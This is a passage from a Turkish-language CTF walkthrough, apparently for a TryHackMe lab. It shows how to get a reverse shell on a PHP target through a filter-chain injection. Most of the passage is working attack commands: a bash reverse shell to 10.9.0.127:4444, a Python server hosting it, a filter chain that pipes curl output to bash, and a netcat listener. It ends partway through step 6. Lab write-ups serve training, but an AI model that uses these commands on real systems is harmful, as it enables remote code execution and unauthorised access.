 
**Step 2**

Kali makinemiz üzerinde “revshell” isimli bir shell oluşturuyoruz.
<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> echo 'bash -i >& /dev/tcp/10.9.0.127/4444 0>&1' > revshell
</div>

Kurban sistem üzerinden bu oluşturduğumuz shelle bağlanarak uzaktan kod çalıştırmayı gerçekleştireceğiz. O yüzden kendi IP adresimizi (VPN ile bağlandıysanız VPN IP adresinizi) / sembolünden sonra da dinleme yapmak istediğiniz portu seçiyorsunuz. Aynı klasör üstünde python server’ını başlatarak shell’i erişilebilir hale getirelim. 
<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> sudo python3 -m http.server 80
</div>

**Step 3**

Shell’i oluşturup erişilebilir hale getirdikten sonra kurban sistem URL’sine, indirdiğimiz aracı kullanarak filter chain oluşturalım.
<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> python3 php\_filter\_chain\_generator.py --chain '?= \`curl -s -L 10.9.0.127/revshell|bash\` ?'
</div>

Bunun çıktısındaki uzun satırları kopyalayalım 5. Adımda bu çıktıları kopyalayacağız.

**Step 4**

Dinleyicimizi başlatalım.
<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> nc -lvnp 4444
</div>

**Step 5**

3\. adımda kopyaladığımız çıktıyı şimdi tarayıca yerine yerleştirme vakti. Kırmızıyla işaretli yere kendi çıktımızı yazalım.
<div style="text-align: center;">
  <img src="./assets/images/tryhackme_cheesectf/url.webp" width="1000" height="60">
</div>
**Step 6**

Netcat ile dinlediğiniz terminale dönerek shell’e ulaşabilirsiniz.
<div style="text-align: center;">